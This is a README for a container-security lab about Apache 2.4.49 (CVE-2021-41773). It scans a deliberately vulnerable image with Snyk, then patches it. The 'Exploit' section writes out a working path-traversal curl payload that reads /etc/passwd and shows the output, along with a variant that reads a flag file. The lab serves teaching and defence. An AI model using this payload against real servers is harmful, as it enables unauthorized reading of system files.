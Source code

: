 # Snyk Vulnerability Scanning: Readme

This scenario involves building a Docker image which includes a vulnerabile package, installed via the Dockerfile.

## Vulnerable Packages

#### CVE-2021-41773

CVE-2021-41773 is a CVE within the Apache HTTP Server, specifically version 2.4.49. 

> A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions. The fix in Apache HTTP Server 2.4.50 was found to be incomplete, see CVE-2021-42013.

[National Institute of Standards and Technology](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)


## CVE Lab

This lab contains a vulnerable Dockerfile, which includes the Apache 2.4.49 package and its associated configuratons which this CVE required to be installed.


## Scanning with Snyk 
***This step is already done on the Playground instances***

To use Snyk, you must first:

* Sign up for Snyk
* Install the CLI agent using Node (must have NPM installed) `npm install -g snyk`
* Authenticate with snyk `snyk auth "<API KEY>"` (this is already handled on the playground instances)

You can now start to scan local images using Snyk. Snyk will analyise the dependencies installed in the image, and scan them against its backend database of vulnerabilities.

Snyk is already installed on the Playground instances, so we can skip this step.


## Building and Scanning Vulnerable Image

There are two directories within the Docker directory, both containing a Dockerfile and a set of dependencies.

* vulnerable
* safe.

To build the vulnerable image, run the following command:

```bash
$ cd workdir/dpg2021publicnov/snyk/docker
$ bash build.sh
```

This will create a Docker image using the Dockerfile located in the `vulnerable` directory, and tag it `apache-vulnerable`.

Now you have built the vulnerable Docker image, it's time to scan this using Snyk. To scan a Docker image, run the following:

```bash
$ snyk container test apache-vulnerable


Testing apache-vulnerable...


✗ Low severity vulnerability found in apache2/apache2-bin
  Description: Cross-site Scripting (XSS)
  Info: https://snyk.io/vuln/SNYK-DEBIANUNSTABLE-APACHE2-391822
  Introduced through: apache2/apache2-bin@2.4.49-4, apache2@2.4.49-4, apache2/apache2-data@2.4.49-4, apache2/apache2-utils@2.4.49-4
  From: apache2/apache2-bin@2.4.49-4
  From: apache2@2.4.49-4 > apache2/apache2-bin@2.4.49-4
  From: apache2/apache2-data@2.4.49-4
  and 4 more...

✗ High severity vulnerability found in apache2/apache2-bin
  Description: Directory Traversal
  Info: https://snyk.io/vuln/SNYK-DEBIANUNSTABLE-APACHE2-1728102
  Introduced through: apache2/apache2-bin@2.4.49-4, apache2@2.4.49-4, apache2/apache2-data@2.4.49-4, apache2/apache2-utils@2.4.49-4
  From: apache2/apache2-bin@2.4.49-4
  From: apache2@2.4.49-4 > apache2/apache2-bin@2.4.49-4
  From: apache2/apache2-data@2.4.49-4
  and 4 more...
  Fixed in: 2.4.50-1

✗ High severity vulnerability found in apache2/apache2-bin
  Description: NULL Pointer Dereference
  Info: https://snyk.io/vuln/SNYK-DEBIANUNSTABLE-APACHE2-1728105
  Introduced through: apache2/apache2-bin@2.4.49-4, apache2@2.4.49-4, apache2/apache2-data@2.4.49-4, apache2/apache2-utils@2.4.49-4
  From: apache2/apache2-bin@2.4.49-4
  From: apache2@2.4.49-4 > apache2/apache2-bin@2.4.49-4
  From: apache2/apache2-data@2.4.49-4
  and 4 more...
  Fixed in: 2.4.50-1

✗ Critical severity vulnerability found in apache2/apache2-bin
  Description: Directory Traversal
  Info: https://snyk.io/vuln/SNYK-DEBIANUNSTABLE-APACHE2-1729585
  Introduced through: apache2/apache2-bin@2.4.49-4, apache2@2.4.49-4, apache2/apache2-data@2.4.49-4, apache2/apache2-utils@2.4.49-4
  From: apache2/apache2-bin@2.4.49-4
  From: apache2@2.4.49-4 > apache2/apache2-bin@2.4.49-4
  From: apache2/apache2-data@2.4.49-4
  and 4 more...
  Fixed in: 2.4.51-1



Organization:      ecsdcmhrpr
Package manager:   deb
Project name:      docker-image|apache-vulnerable
Docker image:      apache-vulnerable
Platform:          linux/amd64
Licenses:          enabled

Tested 146 dependencies for known issues, found 55 issues.

Pro tip: use `--file` option to get base image remediation advice.
Example: $ snyk test --docker apache-vulnerable --file=path/to/Dockerfile

To remove this message in the future, please run `snyk config set disableSuggestions=true`

```


## Exploit

We've shown how to detect the vulnerable package, but lets now show you how to exploit it!

First up, start up a new container from the created image

```bash
$ docker run -d -p 9000:80  apache-vulnerable
```

This will start a new container, using the apache-vulnerable image, mapping the port 9000 to the port run on the apache server within the container. The `-d` flag means it will run in the background.

Lets test we can connect to the server:

```bash
$ curl localhost:9000
```


Now, to run the exploit:

```bash
$ curl -s --path-as-is "http://localhost:9000/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

[playground@worker3-snyk ~]$ curl -s --path-as-is "http://localhost:9000/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

This will exploit a flaw in the directory traversal code of the Apache HTTPD server. IN this case, we will use this exploit to read the contents of the "/etc/passwd" file.

To actually retrieve the flag, we will change the command to print the contents of /etc/flag.txt:

```bash
$ curl -s --path-as-is "http://localhost:9000/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/flag.txt"
```


## Making it Safe

Now we've demonstrated the exploit and how to scan for the critical vulnerabilities used to run the exploit, lets go and make it safe.

Included in the `docker` directory is a directory called `safe` which includes patched versions of the apache dependencies.

Let's run the following command to build the safe image (apache-safe):

```bash
$ bash build_safe.sh
```

You can create a new container using this image (remember to stop the first one by running docker kill <ID>)

```bash
$ docker run -d -p 9000:80  apache-safe
```

Run the exploit:

```
$ curl -s --path-as-is "http://localhost:9000/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/flag.txt"
```

And to scan the new image to confirm the vulnerability is no longer present:

```
$ snyk container test apache-safe
```
